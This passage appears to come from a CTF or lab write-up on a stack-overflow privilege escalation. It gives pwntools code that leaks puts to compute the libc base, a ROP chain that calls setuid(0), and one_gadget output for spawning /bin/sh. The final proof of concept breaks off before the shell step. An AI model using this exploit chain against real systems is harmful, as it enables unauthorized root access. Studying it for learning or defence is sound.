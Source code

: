 Everything worked out and we got the address of puts leaked. We have to now find the offset of puts from the base of libc, to be able to call any other libc function relative to its base:

```
readelf -s libc.so.6| grep puts
422: 00000000000809c0   512 FUNC    WEAK   DEFAULT   13 puts@@GLIBC_2.2.5
```

When we subtract 0x809c0 from the leak we get the libc base address. What is left to do now is to call setuid to set our uid to zero and then call execve to "/bin/sh". The function has the following prototype: "int setuid(uid\_t uid);", which means we only need to pop zero into rdi to call it. We repeat the steps we did for the leak to get the offset of setuid and create the following code that executes it:

```
def setuid(p, base):
    p.sendline('A'*136 + p64(pop_rdi) + p64(0) + p64(base+setuid) + p64(main))
    print(p.recv())
```

To execute "/bin/sh" we use [one\_gadget](https://github.com/david942j/one_gadget), which gives a shell upon jumping to a specific address in libc:

```
one_gadget libc.so.6
0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rcx == NULL

0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

With these pieces we can now create the final POC and get root:

```python
from pwn import *

pop_rdi = 0x000000000040179b
puts_plt = 0x0000000000404028
puts = 0x0000000000401050
base_offset = 0x809c0
magic = 0x4f2c5
main = 0x0000000000401619
setuid = 0x0000000000e5970

def leak_libc(p):
    exploit = 'A'*136 + p64(pop_rdi) + p64(puts_plt) + p64(puts) + p64(main) # return to main after exploitation
    p.recvuntil('password:')
    p.sendline(exploit)
    p.recvline()
    p.recvline()
    x = p.recvline()
    print(repr(x))
    data = x.strip().split('\n')
    address = data[-1] + '\x00\x00'
    return u64(address) - base_offset

def set_uid(p, base):
    p.sendline('A'*136 + p64(pop_rdi) + p64(0) + p64(base+setuid) + p64(main))
    print(p.recv())

```